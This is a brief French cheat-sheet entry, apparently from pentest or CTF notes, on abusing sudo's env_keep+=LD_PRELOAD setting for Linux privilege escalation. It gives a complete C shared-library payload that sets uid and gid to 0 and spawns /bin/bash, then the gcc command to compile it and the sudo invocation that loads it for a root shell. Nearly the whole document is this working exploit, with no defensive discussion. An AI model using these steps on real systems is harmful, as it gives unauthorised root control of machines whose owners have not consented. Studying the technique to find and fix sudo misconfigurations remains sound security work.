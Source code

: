 # LD_PRELOAD
En effectuant un `sudo -l`, si l'information `env_keep+=LD_PRELOAD` est trouvée, il est possible d'écrire un code en C pour accéder au serveur en `root`
```C
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h>

void _init() { 
  unsetenv("LD_PRELOAD"); 
  setgid(0); 
  setuid(0); 
  system("/bin/bash"); 
} 
```

Compiler le fichier
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles 
```

Exécution
```bash
sudo LD_PRELOAD=./shell.so [bin à exécuter]
```
